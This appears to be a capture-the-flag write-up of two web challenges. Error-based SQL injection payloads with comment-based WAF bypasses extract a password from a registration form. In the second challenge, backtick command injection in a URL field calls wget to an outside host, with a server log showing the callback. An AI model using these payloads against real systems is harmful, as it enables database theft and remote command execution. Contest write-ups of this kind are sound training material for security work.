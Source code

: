 SQL Injection:

    URL: http://104.197.7.111:8080/register
    POST: username=admin&password=,'

    error executing sql: insert into users (username, password) values ('admin', ','')

    (1064, "You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near '','')' at line 1")

Continue:

    username=admin\&password=,updatexml(1,(select password from users limit 1),1) or '

    password contains SQL injection, IP recorded.
    
Bypass WAF:

    username=admin\&password=,updatexml(1,(/*/*/select password from/*/*/users limit/*/*/1),1) or/*/*/'

    (1105, "XPATH syntax error: '{h0w-d1d-y0u-fee1-l1ke-th3-sql1-'")
    
Substring right:

    username=admin\&password=,updatexml(1,(/*/*/select right(password,33)/*/*/from/*/*/users limit/*/*/1),1) or/*/*/'

    (1105, "XPATH syntax error: 'd-y0u-fee1-l1ke-th3-sql1-eng1ne}'")
    
String concatenation (FLAG):

	{h0w-d1d-y0u-fee1-l1ke-th3-sql1-eng1ne}
	
-------------

#### Torrent_loverScore 233

Desc: A dog loves torrent.

![http://ww1.sinaimg.cn/large/c334041bgw1eqegar7st4j20ac03sdfz.jpg](http://ww1.sinaimg.cn/large/c334041bgw1eqegar7st4j20ac03sdfz.jpg)

![http://ww3.sinaimg.cn/large/c334041bgw1eqegb9eahij20a502gq2y.jpg](http://ww3.sinaimg.cn/large/c334041bgw1eqegb9eahij20a502gq2y.jpg)

http://218.2.197.253/zhongzi/index.php:

![http://ww3.sinaimg.cn/large/c334041bgw1eqegc3043aj20ex0b13zl.jpg](http://ww3.sinaimg.cn/large/c334041bgw1eqegc3043aj20ex0b13zl.jpg)

We guess, Maybe the command execution, The program calls the system function? Because we have no other way. :-(

Testing:

    http://www.google.com/`wget worm.cc:8000`/1.torrent
    http://www.google.com/`wget${IFS}worm.cc:8000`/1.torrent

We have received req (404):

    root@e:/rootkit# python -m SimpleHTTPServer
    Serving HTTP on 0.0.0.0 port 8000 ...
    118.186.202.142 - - [22/Mar/2015 13:44:39] "GET / HTTP/1.1" 200 -
    118.186.202.142 - - [22/Mar/2015 13:44:41] code 404, message File not found
